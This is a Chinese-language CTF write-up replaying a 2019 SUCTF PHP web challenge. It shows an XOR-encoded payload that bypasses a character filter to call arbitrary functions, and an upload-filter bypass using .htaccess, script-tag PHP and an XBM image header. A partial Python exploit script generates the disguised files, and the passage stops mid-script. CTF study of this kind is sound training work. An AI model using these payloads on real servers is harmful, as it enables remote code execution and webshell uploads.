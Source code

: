 直接上payload吧。

我们这里使用字符异或绕过

```python
str="_GET"
for i in str:
    print(hex(ord(i)))
```

这是获得我们所需字符的16进制的hash值。

```
hex(0x5f^0xff)
hex(0x47^0xff)
hex(0x45^0xff)
hex(0x54^0xff)
```

将其与`0xff`做异或处理并获取其hex值。

![](/home/cookie/Pictures/blogs/2019SUCTF[复现]/2.png)

构造payload如下

```php
?_=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo
```

![](/home/cookie/Pictures/blogs/2019SUCTF[复现]/3.png)

第一部分的最终payload为

```php
?_=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=get_the_flag
```



进入第二部分，调用了`get_the_flag`函数

上传文件，然后这里有三个限制

```php
    if(preg_match("/ph/i",$extension)) die("^_^"); 
    if(mb_strpos(file_get_contents($tmp_name), '<?')!==False) die("^_^");
    if(!exif_imagetype($tmp_name)) die("^_^"); 
```

文件类型检验，后缀检验，内容中`<?`检验

我们使用`.htaccess`文件用来绕过后缀检验，然后文件内容使用`<scrpit language='php'></script>`绕过。

类型检验，我们把文件伪装成xbm文件

![](/home/cookie/Pictures/blogs/2019SUCTF[复现]/4.png)

最后附上exp

```python
SIZE_HEADER = b"\n\n#define width 1337\n#define height 1337\n\n"

def generate_php_file(filename, script):
    phpfile = open(filename, 'wb')

    phpfile.write(script.encode('utf-16be'))
    phpfile.write(SIZE_HEADER)

    phpfile.close()

def generate_htacess():
    htaccess = open('.htaccess', 'wb')

    htaccess.write(SIZE_HEADER)
```